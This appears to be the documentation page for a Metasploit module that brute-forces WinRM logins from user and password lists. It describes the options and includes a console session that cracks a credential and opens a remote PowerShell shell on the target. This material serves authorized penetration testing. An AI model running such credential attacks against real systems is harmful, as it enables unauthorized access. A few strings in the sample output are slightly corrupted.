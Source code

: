 ## Vulnerable Application

WinRM is the Microsoft implementation of the WS-Management protocol. Among other features, it provides
shell access to other systems. This module performs a brute force of username:password combinations.
Upon success, it creates an interactive command shell.

## Verification Steps

1. Do: ```use auxiliary/scanner/winrm/winrm_login```
1. Do: ```set RHOSTS [IP]```
1. Do: ```set USERNAME [USERNAME]``` or ```set USER_FILE [FILE]```
1. Do: ```set PASSWORD [PASSWORD]``` or ```set PASS_FILE [FILE]```
1. Do: ```run```


## Options

### BLANK_PASSWORD

Boolean value on if an additional login attempt should be attempted with an empty password for every user.

### PASSWORD

Password to try for each user.

### PASS_FILE

A file containing a password on every line. Kali linux example: `/usr/share/wordlists/metasploit/password.lst`

### STOP_ON_SUCCESS

If a valid login is found on a host, immediately stop attempting additional logins on that host.

### USERNAME

Username to try for each password.

### USERPASS_FILE

A file containing a username and password, separated by a space, on every line. An example line would be `username
password`.

### USER_AS_PASS

Boolean value on if an additional login attempt should be attempted with the password as the username.

### USER_FILE

A file containing a username on every line.

### VERBOSE

Show a failed login attempt. This can get rather verbose when large `USER_FILE`s or `PASS_FILE`s are used. A failed
attempt will look similar to the following:

```
[-] 192.168.1.20: - LOGIN FAILED: WORKSTATION\test:test (Incorrect: )
```

## Option Combinations

It is important to note that usernames and passwords can be entered in multiple combinations. For instance, a password
could be set in `PASSWORD`, be part of either `PASS_FILE` or `USERPASS_FILE`, be guessed via `USER_AS_PASS` or
`BLANK_PASSWORDS`. This module makes a combination of all of the above when attempting logins. So if a password is set
in `PASSWORD`, and a `PASS_FILE` is listed, passwords will be generated from BOTH of these.

## Scenarios

```
msf6 > use auxiliary/scanner/winrm/winrm_login
msf6 auxiliary(scanner/winrm/winrm_login) > set user_file ~/users
user_file => ~/users
msf6 auxiliary(scanner/winrm/winrm_login) > set pass_file ~/passes
pass_file => ~/passes
msf6 auxiliary(scanner/winrm/winrm_login) > set rhosts 192.168.1.205
rhosts => 192.168.1.205
msf6 auxiliary(scanner/winrm/winrm_login) > set verbose true
verbose => true
msf6 auxiliary(scanner/winrm/winrm_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Administrator:hunter2 (Incorrect: )
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Administrator:pass12345 (Incorrect: )
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Administrator:Winte.1.0 (Incorrect: )
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\smash:hunter2 (Incorrect: )
[+] 192.168.1.205:5985 - Login Successful: WORKSTATION\smash:pass12345
[*] Command shell session 1 opened (WinRM) at.1.20509-03 13:27:26 +1000
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Guest:hunter2 (Incorrect: )
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Guest:pass12345 (Incorrect: )
[-] 192.168.1.205: - LOGIN FAILED: WORKSTATION\Guest:Winte.1.0 (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/winrm/winrm_login) > sessions 

Active sessions
===============

  Id  Name  Type           Information                 Connection
  --  ----  ----           -----------                 ----------
  1         shell windows  WinRM : (WIN10DEV\smash)  WinRM (192.168.1.205)

msf6 auxiliary(scanner/winrm/winrm_login) > sessions 1
[*] Starting interaction with 1...

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\smash>
```
